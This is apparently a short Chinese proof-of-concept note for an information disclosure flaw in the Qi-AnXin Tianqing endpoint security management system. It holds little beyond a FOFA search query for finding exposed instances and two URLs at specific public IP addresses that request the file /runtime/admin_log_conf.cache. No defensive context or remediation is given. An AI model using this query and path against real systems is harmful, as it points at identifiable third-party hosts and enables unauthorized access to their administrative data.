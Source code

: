 # 奇安信天擎终端安全管理系统信息泄露漏洞

    ## fofa

```
title="新天擎"
```

## poc

```
http://114.113.151.164:18080/runtime/admin_log_conf.cache
http://218.2.231.183:9080/runtime/admin_log_conf.cache
```
